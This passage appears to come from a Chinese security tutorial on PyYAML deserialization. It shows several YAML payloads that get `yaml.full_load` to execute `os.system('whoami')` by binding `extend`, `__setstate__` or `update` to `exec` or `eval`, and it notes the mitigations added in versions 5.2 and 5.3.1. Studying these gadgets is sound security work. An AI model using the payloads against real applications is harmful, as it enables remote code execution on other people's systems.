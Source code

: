 `python/object/new`和`python/object/appliy`都调用了`construct_python_object_apply`。在`construct_python_object_apply`中，不仅进行了实例化，如果有`listitems`还会调用实例的`extend`方法

```python
yaml.full_load("""
!!python/object/new:type
args:
  - exp
  - !!python/tuple []
  - {"extend": !!python/name:exec }
listitems: "__import__('os').system('whoami')"
""")
12345678
construct_python_object_apply`中还对实例进行`setstate`，即调用了`__setstate__
yaml.full_load("""
!!python/object/new:type
args:
  - exp
  - !!python/tuple []
  - {"__setstate__": !!python/name:eval }
state: "__import__('os').system('whoami')"
""")
12345678
```

由于`str`没有`__dict__`方法，所以在 PyYAML 解析时会触发下面调用。这里的`type`也可以用`staticmethod`来替换。例如，在`set_python_instance_state`中，还有个调用`slotstate.update`的逻辑，那么只要将`slotstate.update`置为`eval`，`state`就是RCE的 payload

```python
yaml.full_load("""
!!python/object/new:str
    args: []
    # 通过 state 触发调用
    state: !!python/tuple
      - "__import__('os').system('whoami')"
      # 下面构造 exp
      - !!python/object/new:staticmethod
        args: []
        state: 
          update: !!python/name:eval
          items: !!python/name:list  # 不设置这个也可以，会报错但也已经执行成功
""")
12345678910111213
```

###### 版本大于等于5.2

`FullConstructor`现在只额外支持`!!python/name`、`!!python/object`、`!!python/object/new`和`!!python/module`，`!!python/object/apply`无法使用

###### 版本大于等于5.3.1

5.3.1 引入了一个新的过滤机制，本质上就是实现一个属性名黑名单（正则），匹配到就报错。
 ![新增过滤机制](assets/1ffac25508874868912369709d1928dc.png)
